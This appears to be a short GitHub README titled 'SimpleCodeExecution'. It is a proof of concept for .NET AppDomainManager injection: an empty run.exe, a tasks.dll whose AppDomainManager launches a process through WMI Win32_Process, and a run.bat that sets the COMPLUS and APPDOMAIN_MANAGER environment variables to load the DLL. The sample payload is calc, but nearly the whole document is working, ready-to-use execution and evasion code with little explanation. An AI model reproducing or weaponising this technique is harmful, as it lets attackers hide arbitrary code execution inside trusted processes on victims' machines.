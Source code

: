 # SimpleCodeExecution
Execute tasks.dll with minimum of code, run.exe, tasks.dll and run.bat in same folder, calc is started under scvhost.


run.exe:

```
using System;

public class MyProgram
{
    public static void Main(string[] args)
    {
    }
}

```

tasks.dll:

```
using System;
using System.Management;

public sealed class WMI : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        WMIexec.Run("calc");
        return;
    }

}

public class WMIexec
{
	public static void Run(string cmd)
	{
			var cmdToRun = new[] { cmd };
			var connection = new ConnectionOptions();
			connection.Impersonation = ImpersonationLevel.Impersonate;
			connection.EnablePrivileges = true;
			var wmiScope = new ManagementScope(String.Format("\\\\{0}\\root\\cimv2", "localhost"), connection);
			var wmiProcess = new ManagementClass(wmiScope, new ManagementPath("Win32_Process"), new ObjectGetOptions());
			object result = wmiProcess.InvokeMethod("Create", cmdToRun);
	}
}

```

run.bat:

```
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=WMI
set COMPLUS_Version=v4.0.30319
run.exe

```

